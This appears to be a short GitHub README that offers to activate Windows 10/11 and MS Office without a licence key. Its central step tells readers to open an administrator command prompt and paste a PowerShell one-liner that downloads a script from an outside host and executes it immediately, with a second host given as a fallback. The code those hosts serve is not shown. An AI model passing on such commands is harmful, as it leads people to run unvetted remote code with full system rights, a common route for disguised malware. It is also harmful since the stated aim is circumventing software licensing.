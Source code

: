 # **How to simply activate-win10/11 and MS Office?**
# To activate windows 10/11 without any problems with finding keys and other nonsense, just run cmd.
## 1. Run cmd as an administrator
   ![image](https://github.com/user-attachments/assets/ae3cbde6-5783-4a9a-a795-e9a13804bbe0)
## 2. Next, copy this command and paste it into the cmd
`powershell iex (irm 'activated.run/key'), if not working, use this irm https://get.activated.win | iex`

![image](https://github.com/user-attachments/assets/b2b448b5-4b7d-4511-9b89-e7b82df3a92b)
### We will open the Windows Activation Script.If you need to activate windows, then click [4], if MS Office, then [2].
![image](https://github.com/user-attachments/assets/4842c9be-9fcb-44cf-a3da-b88c5db3d501)
### Here, respectively, click [1]
![image](https://github.com/user-attachments/assets/faca0c3b-dda1-4f0f-81ec-999f826f3e97)
## 3. That's it, press enter and [0]
